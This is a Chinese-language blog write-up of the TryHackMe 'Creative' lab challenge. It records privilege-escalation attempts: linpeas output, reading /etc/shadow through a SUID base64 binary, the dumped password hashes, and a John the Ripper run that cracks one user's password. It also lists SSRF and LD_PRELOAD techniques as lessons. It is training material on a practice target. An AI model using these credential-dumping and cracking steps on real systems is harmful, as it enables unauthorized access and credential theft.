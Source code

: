 ```yaml
---
layout: post
title:  "TryHackMe Challenge Writeup: Creative"
date:   1 July 2025
categories: Demo
tags: TryHackMe-Challenge Writeup
---
```

<html>
<body>
<div markdown="block" style="margin-top: 10px">
    
### Intro
本篇是關於TryHackMe上的Challenge: [Creative](https://tryhackme.com/room/creative) 我的解題思路和歷程，紀錄自己嘗試了哪些手段以及學習了哪些新的攻擊手法和切入角度


### Attempt
1. Kernel Exploit: [Exploit-DB](https://www.exploit-db.com/exploits/42887): Kernel version沒有說到完全一樣，因此先不執行
2. sudo -l 沒有
3. linpeas => 找到很多東西:
- base64有SUID，可以read檔案
- PATH

```bash
╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses                                                                                            
/home/leonard/scripts:/usr/sue/bin:/usr/lib64/qt-3.3/bin:/home/leonard/perl5/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/opt/puppetlabs/bin:/home/leonard/.local/bin:/home/leonard/bin                                                                                                                                                                     
New path exported: /home/leonard/scripts:/usr/sue/bin:/usr/lib64/qt-3.3/bin:/home/leonard/perl5/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/opt/puppetlabs/bin:/home/leonard/.local/bin:/home/leonard/bin:/sbin:/bin
```


### base64(SUID)
- 查看 /etc/shadow

```bash
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```

- unshadow 後用 john 破解 missy 用戶密碼:

```bash
└─$ john --wordlist=/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt unshadow.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (missy)     
1g 0:00:00:00 DONE (2025-07-02 03:01) 1.219g/s 4370p/s 4370c/s 4370C/s mayday..hedgehog
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```



### 總結
自己卡關的步驟:
- 枚舉虛擬主機
- SSRF => 枚舉開放port
- 新的提權手法: `env_keep+=LD_PRELOAD`


## 學習資料
1. [TryHackMe Challenge: Creative](https://tryhackme.com/room/creative)
2. [Writeup \| Creative](https://0xb0b.gitbook.io/writeups/tryhackme/2024/creative)
3. [使用LD_Preload的Linux权限升级技巧](https://www.cnblogs.com/backlion/p/10503985.html)

</div>
</body>
</html>
